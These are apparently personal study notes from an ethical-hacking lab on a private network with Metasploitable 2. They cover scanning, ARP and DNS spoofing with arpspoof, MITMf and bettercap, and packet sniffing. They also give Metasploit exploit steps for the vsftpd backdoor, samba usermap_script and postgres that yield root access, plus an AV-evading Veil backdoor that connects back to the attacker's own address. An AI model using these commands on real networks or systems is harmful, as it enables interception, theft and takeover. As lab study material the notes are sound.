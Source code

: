 # Ethical Hacking Notes


# Man in the Middle Attack


## Scan related

```console
arp -a
```

Check arp table on Windows


```console
netdiscover -r 10.0.2.0/24
```

Simplified version of nmap 

```console
nmap 10.0.2.0/24
```

Discover all IP and ports in the local network

## ARP Setup target victim PC

```console
arpspoof -i eth0 -t 10.0.2.15 10.0.2.1
```

10.0.2.15 is the target IP, 10.0.2.1 is router IP, this will tell victim PC I'm the router.

```console
arpspoof -i eth0 -t 10.0.2.1 10.0.2.15
```

This will tell router, I'm the victim PC.

## Man in the middle framework

Installation

https://github.com/byt3bl33d3r/MITMf.wiki.git


Remember to turn on IP forward, or victim PC cannot access internet
```console
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Start

```console
python mitmf.py -i eth0 --arp --spoof --gateway 10.0.2.1 --target 10.0.2.15
```

## DNS Attack



```console
python mitmf.py -i eth0 --arp --spoof --gateway 10.0.2.1 --target 10.0.2.15 --dns
```

You can configure MITMF/config/mitmf.conf file to add dns info
In \[\[\[A\]\]\]
Use *.xxxx.com=10.0.2.10 to forward dns info to your own address.

On your own kali, host Web server.




## Bettercap

bettercap is another man in the middle framework with constant update.

```console
bettercap
```

help to see all services.

```console
net.probe on 
```

Discover IP on the local network

```console
set arp.spoof.fullduplex true
set arp.spoof.targets 10.0.2.15
arp.spoof on
```

fullduplex: both targets and gateway will be attached, otherwise only target

set target ip address

Turn on arp.spoof

Use net.sniff on to start sniffing packets

# System penetrating

Penetrate target systems

## Metaexploitable 2

Use nmap to scan target ports

Zenmap options:
1. Ping Scan
2. Quick Scan
3. Quick Scan Plus
4. Intense Scan



```console
msfconsole
```

msf framework, built on Ruby.

### Exploit vsftp 2.3.4

use exploit/unix/ftp/vsftpd_234_backdoor

show options

set RHOSTS 10.0.2.4

exploit

get root access


### Exploit samba usermap_Script

use exploit/multi/samba/usermap_script

show options

set RHOSTS 10.0.2.4

exploit

get root access

use exploit/linux/postgres/postgres_payload


show options

set RHOSTS 10.0.2.4

exploit

get root access

## Backdoor Generation

### Veil Framework Installation

```console
https://github.com/Veil-Framework/Veil.git
```

```
./config/setup.sh --force --silent
```

```
python3 Veil.py
```

use 1 evasion

use 14

Set options like LHOST or LPORT to your own ip address for backdoor application

generate

will create exe for you.


### 




